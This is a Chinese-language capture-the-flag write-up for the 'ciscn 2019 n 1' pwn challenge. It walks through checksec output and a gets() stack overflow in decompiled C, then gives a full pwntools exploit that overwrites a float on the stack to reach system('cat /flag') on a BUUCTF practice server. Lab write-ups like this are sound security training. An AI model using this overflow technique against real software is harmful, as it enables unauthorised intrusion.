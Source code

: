 # ciscn 2019 n 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_n_1
[*] '/root/ciscn_2019_n_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现漏洞点，漏洞在函数func如图

```c
int func()
{
  int result; // eax
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    result = system("cat /flag");
  else
    result = puts("Its value should be 11.28125");
  return result;
}
```



发现溢出函数`gets`，另外若`v2==11.28125`成立，则直接可获得`flag`

## 思路分析

1. 分析:
   - `v1`处可溢出
   - `v1`与`v2`同时是栈上变量
   - `v2=0`
   - 当`v2=11.28125`时可直接获得`flag`
2. 思路:
   - 从`v1`直接溢出到`v2`处将`v2`修改为`11.28125`即可获得`flag`

## 确定偏移量

- 通过`ida`及简单的调试可知从`v1`到`v2`的偏移量为`0x30-4`

## 问题

`pwntools`中的`flat`无法打包`float`类型变量:

- 需要进行手动转换处理

```python
import struct
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
```

## exp

```python
from pwn import *
import struct
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_n_1/ciscn_2019_n_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27944)
padding = 0x30-4
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
payload = flat(['a'*padding, v1])
io.recv()
io.sendline(payload)
io.interactive()
```